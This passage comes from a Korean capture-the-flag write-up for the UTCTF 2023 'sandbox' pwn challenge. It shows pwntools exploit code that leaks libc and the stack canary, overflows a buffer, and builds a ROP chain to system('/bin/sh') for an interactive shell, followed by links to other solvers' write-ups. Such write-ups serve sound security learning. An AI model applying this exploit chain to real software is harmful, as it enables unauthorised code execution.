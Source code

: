 ```python
p.send(b'A' * 0x10)
p.recvuntil(b"A"*0x10)
libc.address = u64(p.recv(6) + b'\x00\x00') - libc.symbols['_IO_2_1_stdout_'] 
log.success(f"libc base @ {hex(libc.address)}")

payload = b''
payload += b'A' * 0x108

# Exploit
payload += uc_syscall(READ, 0, 0x4000000, 0x300) 
payload += uc_syscall(WRITE, 1, 0x4000000, 0x300)
p.sendlineafter(b"\n", payload)

rop = ROP([libc])
rop.call(rop.find_gadget(["ret"]))
rop.call("system", [next(libc.search(b"/bin/sh"))])

payload = b'A'*0x88
payload += p64(canary)
payload += b'A'*0x38
payload += rop.chain()
p.send(payload)

p.interactive()
```

![shell](3.png)

문제만 다운 받고 나중에 풀어서 플래그는 모르겠네요!

## [0x04] 참고 자료

---

- 출제자 write-up: [https://github.com/utisss/UTCTF-23/tree/main/puffer/pwn-sandbox](https://github.com/utisss/UTCTF-23/tree/main/puffer/pwn-sandbox)
    - 인텐 풀이는 `1024`번째 custom syscall을 활용하여, `exit_syscalls`에 59(execve)를 덮어쓰는 거였습니다. `read`를 수행할 때 size만큼 계속 입력받게 하든가, size만큼 버퍼를 초기화했으면 제 풀이는 불가능했을 것 같습니다.
- nobodyisnobody님의 write-up: [https://github.com/nobodyisnobody/write-ups/tree/main/UTCTF.2023/pwn/UTCTF.Sandbox/](https://github.com/nobodyisnobody/write-ups/tree/main/UTCTF.2023/pwn/UTCTF.Sandbox/)
    - Canary랑 libc를 다 구했는데, 출제자 라업에 맞게 `1024`번째 syscall을 활용하여 풀이하였습니다.